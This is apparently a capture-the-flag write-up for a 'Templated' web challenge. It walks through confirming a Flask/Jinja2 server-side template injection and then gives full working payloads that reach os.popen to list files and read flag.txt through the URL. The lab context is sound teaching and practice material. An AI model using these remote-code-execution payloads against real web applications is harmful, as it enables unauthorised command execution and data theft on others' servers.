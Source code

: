 ### Starting
For the **Templated** challenge, start an instance and visit the IP displayed.
The description **Can you exploit this simple mistake?** suggests that there is a simple mistake to be exploited.

On visiting the IP, we are greeted with the following page
![Screenshot 1.png]('./Screenshot%201.png)
The page displays that it is proudly powered by **Flask/Jinja2**
On inspecting the source code and the requests, there is nothing useful that is found.
The title **Templated** and **Flask/Jinja2** both hint towards Server Side Template Injection (SSTI).

So lets try template injection via the URL. Using `{{7 * '7'}}` as a payload the URL became http://142.93.35.92:31572/{{7*'7'}}
On visiting this URL, we are greeted with the following page.
![Screenshot 2.png]('./Screenshot%202.png)
We can see that the payload has been evaluted as '7777777'. This confirms that a template injection vulnerability exists in the site.
A good article on [SSTI with Jinja2](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) can be found here.
And [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) also has lots of payloads for various languages and the templating engines used in them including Jinja.

So we can use **MRO** function to display classes which will useful in creating the specific payload for the website.
Payload to list files in the current directory
`{{ "".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('ls%20*').read()}}`
The URL will look like
`http://142.93.35.92:31572/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('ls%20*').read()}}`
![Screenshot 3.png]('./Screenshot%201.png)
We can see that flag.txt exists in the current folder.
So we will replace `ls *` with `cat flag.txt` in the payload.
Payload to print flag
`{{ "".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('cat%20flag.txt').read()}}`
The URL will look like
`http://142.93.35.92:31572/%7B%7B''.__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('cat%20flag.txt').read()%7D%7D`
And with this we will have the flag printed on the screen.
